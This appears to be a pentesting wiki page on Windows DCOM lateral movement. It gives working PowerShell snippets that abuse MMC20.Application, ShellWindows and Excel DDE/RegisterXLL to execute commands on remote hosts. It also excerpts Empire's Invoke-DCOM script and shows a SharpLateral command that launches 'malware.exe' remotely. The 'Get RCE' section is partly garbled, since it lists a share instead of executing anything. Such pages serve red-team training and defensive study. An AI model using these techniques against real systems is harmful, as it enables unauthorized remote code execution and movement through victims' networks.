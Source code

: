 # DCOM Exec

{{#include ../../banners/hacktricks-training.md}}

## MMC20.Application

**For more info about this technique chech the original post from [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)**

Distributed Component Object Model (DCOM) objects present an interesting capability for network-based interactions with objects. Microsoft provides comprehensive documentation for both DCOM and Component Object Model (COM), accessible [here for DCOM](https://msdn.microsoft.com/en-us/library/cc226801.aspx) and [here for COM](<https://msdn.microsoft.com/en-us/library/windows/desktop/ms694363(v=vs.85).aspx>). A list of DCOM applications can be retrieved using the PowerShell command:

```bash
Get-CimInstance Win32_DCOMApplication
```

The COM object, [MMC Application Class (MMC20.Application)](https://technet.microsoft.com/en-us/library/cc181199.aspx), enables scripting of MMC snap-in operations. Notably, this object contains a `ExecuteShellCommand` method under `Document.ActiveView`. More information about this method can be found [here](<https://msdn.microsoft.com/en-us/library/aa815396(v=vs.85).aspx>). Check it running:

This feature facilitates the execution of commands over a network through a DCOM application. To interact with DCOM remotely as an admin, PowerShell can be utilized as follows:

```powershell
[activator]::CreateInstance([type]::GetTypeFromProgID("<DCOM_ProgID>", "<IP_Address>"))
```

This command connects to the DCOM application and returns an instance of the COM object. The ExecuteShellCommand method can then be invoked to execute a process on the remote host. The process involves the following steps:

Check methods:

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com.Document.ActiveView | Get-Member
```

Get RCE:

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com | Get-Member

# Then just run something like:

ls \\10.10.10.10\c$\Users
```

## ShellWindows & ShellBrowserWindow

**For more info about this technique check the original post [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)**

The **MMC20.Application** object was identified to lack explicit "LaunchPermissions," defaulting to permissions that permit Administrators access. For further details, a thread can be explored [here](https://twitter.com/tiraniddo/status/817532039771525120), and the usage of [@tiraniddo](https://twitter.com/tiraniddo)’s OleView .NET for filtering objects without explicit Launch Permission is recommended.

Two specific objects, `ShellBrowserWindow` and `ShellWindows`, were highlighted due to their lack of explicit Launch Permissions. The absence of a `LaunchPermission` registry entry under `HKCR:\AppID\{guid}` signifies no explicit permissions.

### ShellWindows

For `ShellWindows`, which lacks a ProgID, the .NET methods `Type.GetTypeFromCLSID` and `Activator.CreateInstance` facilitate object instantiation using its AppID. This process leverages OleView .NET to retrieve the CLSID for `ShellWindows`. Once instantiated, interaction is possible through the `WindowsShell.Item` method, leading to method invocation like `Document.Application.ShellExecute`.

Example PowerShell commands were provided to instantiate the object and execute commands remotely:

```powershell
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>")
$obj = [System.Activator]::CreateInstance($com)
$item = $obj.Item()
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```

### Lateral Movement with Excel DCOM Objects

Lateral movement can be achieved by exploiting DCOM Excel objects. For detailed information, it's advisable to read the discussion on leveraging Excel DDE for lateral movement via DCOM at [Cybereason's blog](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom).

The Empire project provides a PowerShell script, which demonstrates the utilization of Excel for remote code execution (RCE) by manipulating DCOM objects. Below are snippets from the script available on [Empire's GitHub repository](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1), showcasing different methods to abuse Excel for RCE:

```powershell
# Detection of Office version
elseif ($Method -Match "DetectOffice") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $isx64 = [boolean]$obj.Application.ProductCode[21]
    Write-Host  $(If ($isx64) {"Office x64 detected"} Else {"Office x86 detected"})
}
# Registration of an XLL
elseif ($Method -Match "RegisterXLL") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $obj.Application.RegisterXLL("$DllPath")
}
# Execution of a command via Excel DDE
elseif ($Method -Match "ExcelDDE") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $Obj.DisplayAlerts = $false
    $Obj.DDEInitiate("cmd", "/c $Command")
}
```

### Automation Tools for Lateral Movement

Two tools are highlighted for automating these techniques:

- **Invoke-DCOM.ps1**: A PowerShell script provided by the Empire project that simplifies the invocation of different methods for executing code on remote machines. This script is accessible at the Empire GitHub repository.

- **SharpLateral**: A tool designed for executing code remotely, which can be used with the command:

```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```

## Automatic Tools

- The Powershell script [**Invoke-DCOM.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1) allows to easily invoke all the commented ways to execute code in other machines.
- You could also use [**SharpLateral**](https://github.com/mertdas/SharpLateral):

```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```

## References

- [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)
- [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)

{{#include ../../banners/hacktricks-training.md}}


